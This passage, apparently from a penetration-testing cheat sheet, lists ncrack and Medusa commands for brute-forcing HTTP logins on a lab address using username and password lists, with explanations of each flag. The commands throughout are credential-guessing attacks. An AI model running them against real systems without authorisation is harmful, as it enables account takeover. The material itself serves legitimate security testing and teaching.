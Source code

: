 	# ncrack -v -U user.txt -P pass.txt http://192.168.1.100

	# ncrack -v --user user.txt --pass pass.txt http://192.168.1.100

	# ncrack -v -user admin -P pass.txt http://192.168.1.100

	# ncrack -v -user admin,administrator -p pass,password,pass@123 http://192.168.1.100

	# ncrack -v -user admin,administrator -P pass.txt http://192.168.1.100

	-v Verbosity
	-U Denotes the path of user list
	-P Denotes the path of password list
	-user Denotes the username with comma seprated
	-pass Denotes the password with comma seprated
	-T[0-5] set timing template
	
### Medusa

Medusa is intended to be a speedy, massively parallel, modular, login brute-forcer.  The goal is to support as many services which allow remote authentication
as possible. The author considers following items to some of the key features of this application:

	# medusa -h 192.168.1.100 -U user.txt -p p@$$w0rd -M http -f

	# medusa -h 192.168.1.100 -u admin -P pass.txt -M http -f

	# medusa -h 192.168.1.100 -U user.txt -P pass.txt -M http -f

	# medusa -h 192.168.1.100 -c combo.txt -M http -f
	[-c Combo files are colon separated and in the following format: host:user:password]

	-h host or url
	-U Denotes the path of user list
	-P Denotes the path of passowrd list
	-u Denotes the username with comma seprated
	-p Denotes the password with comma seprated
	-c Denotes the combo file colon seprated
	-M module name to be execute.
